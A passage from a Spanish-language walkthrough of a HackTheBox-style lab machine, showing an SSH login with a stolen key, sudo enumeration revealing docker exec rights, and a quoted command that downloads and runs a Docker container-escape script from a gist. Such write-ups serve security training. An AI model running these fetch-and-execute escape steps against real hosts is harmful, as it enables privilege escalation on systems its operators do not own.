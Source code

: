 ```bash
-----END RSA PRIVATE KEY-----

```

ssh noah@10.10.10.230 -i id_rsa

![](assets/2022-07-01-20-13-02.png)

# Escalada de privilegios

## Que puede ejecutar el usuario como sudo

```bash
noah@thenotebook:/usr/bin$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*

noah@thenotebook:/usr/bin$ docker -v
Docker version 18.06.0-ce, build 0ffa825

```

Mirando en google docker y la versión veo esto https://gist.github.com/thinkycx/e2c9090f035d7b09156077903d6afa51
```bash
# Usage:
#       1. curl https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw -o install.sh && bash install.sh
#       2. run docker_escape in docker container
```
Ejecuto el .1 pero como vimos no tengo permisos para el exterior, voy a bajarme el sh y ponerlo en mi servidor python3
